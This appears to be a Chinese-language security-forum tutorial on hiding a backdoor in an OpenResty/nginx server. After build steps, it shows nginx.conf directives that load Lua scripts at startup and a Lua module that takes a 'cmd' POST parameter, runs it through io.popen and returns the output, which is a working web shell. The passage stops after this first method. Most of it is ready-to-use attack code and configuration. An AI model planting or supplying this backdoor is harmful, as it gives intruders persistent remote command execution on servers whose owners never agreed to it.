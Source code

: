 ### 环境搭建

这边选择一个相对方便的环境，例openresty源码包或二进制安装包

```cpp
wget <https://openresty.org/download/openresty-1.15.8.1.tar.gz>
tar zxvf openresty-1.15.8.1.tar.gz
cd openresty-1.15.8.1
./configure
gmake
gmake install
```

此时默认去/usr/local/openresty/nginx/sbin/路径下启动nginx

![Untitled6.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-701ac0c2d5ad497ac780d99267c311c78fef98a3.png)

### content阶段放置后门

#### 方式一：

创建一个放置lua脚本的目录，随后在nginx.conf文件中的http节中加入如下内容，用于加载lua文件：

```cpp
http {
  include       mime.types;
  # lua 文件的位置
  lua_package_path "/usr/local/openresty/nginx/conf/lua/?.lua;;";
  # nginx启动阶段时执行的脚本，可以不加
  init_by_lua_file '/usr/local/openresty/nginx/conf/lua/init.lua';
```

conf/lua\_src/Init.lua中的内容如下：

```cpp
local p = "/usr/local/openresty/nginx/conf/lua"
local m_package_path = package.path
package.path = string.format("%s?.lua;%s?/init.lua;%s", p, p, m_package_path)
cmd = require("t")
```

`cmd = require("t")`表示加载了t.lua中的模块，并命名为cmd，以后在nginx的所有执行阶段通过cmd变量就可以调用了。 t.lua实现了一个简单的命令执行功能，如下所示：

```cpp
local _M = {}
function _M.run()
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    local cmd = post_args["cmd"]
    if cmd then
        f_ret = io.popen(cmd)
        local ret = f_ret:read("*a")
        ngx.say(string.format("reply:\\n%s", ret))
    end
end
return _M
```
